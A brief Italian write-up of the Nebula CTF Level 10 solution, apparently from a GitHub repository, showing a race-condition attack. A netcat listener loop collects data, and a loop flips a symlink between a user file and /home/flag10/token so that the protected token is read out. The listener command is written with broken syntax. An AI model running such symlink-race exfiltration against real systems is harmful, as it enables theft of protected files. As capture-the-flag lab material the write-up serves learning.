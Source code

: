 ## Level 10
### Soluzione
L'idea è andare a creare un link simbolico che cambia in maniera rapidissiam tra un file su cui ho permessi e il token. 
#### Creo un server TCP
Si utilizza netcat, e lo inserirò in un civlo infinito:
```
while:; do nc.traditional -vlp 18211; >> /tmp/save.txt; done
```
Voglio anche sbagttere su un file tutto ciò che i vari client mi invieranno poi Si associa in rapida successione e di continuo un link simbolico di nome /tmp/link ai due file
/tmp/token e /home/flag10/token.
Su un terminale in esecuzione su Nebula:
```
while :; do ln -fs /tmp/token /tmp/link; ln -fs /home/flag10/token /tmp/link; done
```

